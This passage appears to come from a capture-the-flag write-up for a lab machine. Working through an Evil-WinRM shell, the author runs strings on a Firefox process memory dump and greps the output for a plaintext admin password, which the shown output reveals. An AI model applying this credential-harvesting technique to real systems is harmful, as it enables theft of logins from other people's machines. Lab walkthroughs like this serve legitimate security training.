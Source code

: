 Then I uploaded strings.exe and used it on the dump and saved the output to another file:

    *Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> dir
     Directory: C:\Windows\System32\spool\drivers\color
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        9/15/2018  12:42 PM           1058 D50.camp
    -a----        9/15/2018  12:42 PM           1079 D65.camp
    -a----        1/27/2022  11:29 PM              0 firefox.exe_191129_211531.txt
    -a----        1/27/2022  11:23 PM      345882086 firefox.exe_220127_232350.dmp
    -a----        9/15/2018  12:42 PM            797 Graphics.gmmp
    -a----        9/15/2018  12:42 PM            838 MediaSim.gmmp
    -a----        9/15/2018  12:42 PM            786 Photo.gmmp
    -a----        1/27/2022  11:14 PM         753048 procdump.exe
    -a----        1/27/2022  11:17 PM         401296 procdump64.exe
    -a----        9/15/2018  12:42 PM            822 Proofing.gmmp
    -a----        9/15/2018  12:42 PM         218103 RSWOP.icm
    -a----        9/15/2018  12:42 PM           3144 sRGB Color Space Profile.icm
    -a----        1/27/2022  11:16 PM         370056 strings.exe
    -a----        1/27/2022  11:28 PM         478088 strings64.exe
    -a----        9/15/2018  12:42 PM          17155 wscRGB.cdmp
    -a----        9/15/2018  12:42 PM           1578 wsRGB.cdmp
    *Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> cmd /c "strings64.exe -accepteula firefox.exe_220127_232350.dmp > firefox.exe_191129_211531.txt"
    cmd.exe : 
        + CategoryInfo          : NotSpecified: (:String) [], RemoteException
        + FullyQualifiedErrorId : NativeCommandError
    Strings v2.54 - Search for ANSI and Unicode strings in binary images.
    Copyright (C) 1999-2021 Mark Russinovich
    Sysinternals - www.sysinternals.com
    
    *Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> findstr "password" ./firefox.exe_191129_211531.txt
    
    passwordmgr
    http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
    http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
    passwordPopupAutomaticallyOpenedSTATE_CERT_DISTRUST_IMMINENT
    passwords
    password
    password
    passwordSavingEnabled
    password
    RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
    MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
    MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
    MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
    MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
    password
    get password
    set password
    password
    @mozilla.org/passwordmanager/authpromptfactory;1
    password
    passwordField
    passwordPopupAutomaticallyOpened
    passwordMask
    
